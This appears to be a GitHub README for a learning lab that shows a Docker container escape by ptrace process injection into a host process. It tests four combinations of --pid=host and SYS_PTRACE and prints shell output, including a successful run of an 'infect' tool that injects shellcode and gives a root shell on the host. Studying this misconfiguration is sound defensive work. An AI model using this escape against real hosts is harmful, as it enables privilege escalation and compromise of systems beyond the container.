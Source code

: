 # Container Breakout Learning

"Container Breakout" learning application.

It is explaining the "Container Breakout" when the "`--pid=host`" and "`--cap-add=SYS_PTRACE`" options are specified at container startup.

## Reference

[Container Breakout – Part 1](https://tbhaxor.com/container-breakout-part-1/#lab-process-injection)

## Environment

Tried on Amazon Linux 2023.

```
# uname -a
Linux ip-172-31-33-251.ap-northeast-1.compute.internal 6.1.27-43.48.amzn2023.x86_64 #1 SMP PREEMPT_DYNAMIC Tue May  2 04:53:36 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

# docker --version
Docker version 20.10.23, build 7155243
```

### Preparation

Starts an HTTP server on the host machine.  
After, Execute a "Process injection Attack" against this process.

```
# python3 -m http.server 10080 &

# ps au
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root        2130  0.0  0.0 221344  1084 tty1     Ss+  11:28   0:00 /sbin/agetty -o -p -- \u --noclear - linux
root        2131  0.0  0.0 221388  1084 ttyS0    Ss+  11:28   0:00 /sbin/agetty -o -p -- \u --keep-baud 115200,57600,38400,9600 - vt220
ec2-user   72976  0.0  0.2 233060  5004 pts/1    Ss   14:29   0:00 -bash
root       72999  0.0  0.4 260292  8276 pts/1    S    14:29   0:00 sudo su -
root       73001  0.0  0.2 245536  4712 pts/1    S    14:29   0:00 su -
root       73002  0.0  0.2 233188  5100 pts/1    S    14:29   0:00 -bash
root       74067  0.0  0.9 241204 18056 pts/1    S    14:31   0:00 /root/.pyenv/versions/3.9.16/bin/python3 -m http.server 10080
root       78647  0.0  0.1 232520  2776 pts/1    R+   14:46   0:00 ps au
```

## Run

```
-- Run container
# make up

-- Execute to container bash
# make app
```

| Setting Pattern | Container Breakout |
| - | - |
| Pattern 1 | Fail |
| Pattern 2 | Fail |
| Pattern 3 | Fail |
| Pattern 4 | **Succeed** |

### Pattern 1

| Vulnerability Args | |
| - | - |
| --pid=host | x |
| --cap-add=SYS_PTRACE | x |

```
root@b1e9750ed68c:/usr/poc# ps a
    PID TTY      STAT   TIME COMMAND
      1 pts/0    Ss+    0:00 bash
      7 pts/1    Ss     0:00 bash
     13 pts/1    R+     0:00 ps a
```

```
root@b1e9750ed68c:/usr/poc# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

```
root@b1e9750ed68c:/usr/poc# ./infect 74067
+ Tracing process 74067
ptrace(ATTACH):: No such process
```

### Pattern 2

| Vulnerability Setting | |
| - | - |
| --pid=host | x |
| --cap-add=SYS_PTRACE | o |

```
root@37ae5c031be6:/usr/poc# ps a
    PID TTY      STAT   TIME COMMAND
      1 pts/0    Ss+    0:00 bash
      7 pts/1    Ss     0:00 bash
     13 pts/1    R+     0:00 ps a
```

```
root@37ae5c031be6:/usr/poc# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

```
root@3241904b2741:/usr/poc# ./infect 74067
+ Tracing process 74067
ptrace(ATTACH):: No such process
```


### Pattern 3

| Vulnerability Setting | |
| - | - |
| --pid=host | o |
| --cap-add=SYS_PTRACE | x |

```
root@f71f748ca3c7:/usr/poc# ps a
    PID TTY      STAT   TIME COMMAND
   2130 ?        Ss+    0:00 /sbin/agetty -o -p -- \u --noclear - linux
   2131 ?        Ss+    0:00 /sbin/agetty -o -p -- \u --keep-baud 115200,57600,38400,9600 - vt220
  72976 pts/1    Ss     0:00 -bash
  72999 pts/1    S      0:00 sudo su -
  73001 pts/1    S      0:00 su -
  73002 pts/1    S      0:00 -bash
  74067 pts/1    S      0:00 /root/.pyenv/versions/3.9.16/bin/python3 -m http.server 10080
  76982 pts/0    Ss+    0:00 bash
  77229 pts/1    S+     0:00 make app
  77230 pts/1    Sl+    0:00 docker-compose exec app bash
  77246 pts/1    Ss     0:00 bash
  77254 pts/1    R+     0:00 ps a
```

```
root@f71f748ca3c7:/usr/poc# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

```
root@f71f748ca3c7:/usr/poc# ./infect 74067
+ Tracing process 74067
ptrace(ATTACH):: Operation not permitted
```

### Pattern 4

| Vulnerability Setting | |
| - | - |
| --pid=host | o |
| --cap-add=SYS_PTRACE | o |

```
root@b9ceb8fb7c89:/usr/poc# ps a
    PID TTY      STAT   TIME COMMAND
   2130 ?        Ss+    0:00 /sbin/agetty -o -p -- \u --noclear - linux
   2131 ?        Ss+    0:00 /sbin/agetty -o -p -- \u --keep-baud 115200,57600,38400,9600 - vt220
   2401 pts/0    Ss     0:00 -bash
   2424 pts/0    S      0:00 sudo su -
   2426 pts/0    S      0:00 su -
   2427 pts/0    S+     0:00 -bash
  65349 pts/0    T      0:00
  66006 pts/0    Ss+    0:00 bash
  72976 pts/1    Ss     0:00 -bash
  72999 pts/1    S      0:00 sudo su -
  73001 pts/1    S      0:00 su -
  73002 pts/1    S      0:00 -bash
  74067 pts/1    S      0:00 /root/.pyenv/versions/3.9.16/bin/python3 -m http.server 10080
  74440 pts/1    S+     0:00 make app
  74441 pts/1    Sl+    0:00 docker-compose exec app bash
  74457 pts/1    Ss     0:00 bash
  74464 pts/1    R+     0:00 ps a
```

```
root@b9ceb8fb7c89:/usr/poc# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

```
root@aa6559b6c94d:/usr/poc# ./infect 74067
+ Tracing process 74067
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f55f4d42987
+ Setting instruction pointer to 0x7f55f4d42989
+ Run it!

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

docker --version
Docker version 20.10.23, build 7155243
```
